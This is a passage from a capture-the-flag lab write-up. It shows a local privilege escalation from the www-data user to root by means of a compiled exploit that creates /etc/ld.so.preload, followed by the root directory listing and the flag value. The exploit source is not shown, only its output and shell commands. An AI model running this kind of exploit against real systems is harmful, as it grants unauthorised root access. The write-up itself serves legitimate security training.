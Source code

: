 ~~~
~~~

There ware warnings but don't worry, it works. Just run it and now we are root:

~~~
www-data@ubuntu:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
~~~

### 4.5 - What is the root flag?

Now navigatet to `/root` and read the flag file:
~~~
# cd /root
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

~~~

By visiting the URL we are shown a video and a congrats message:
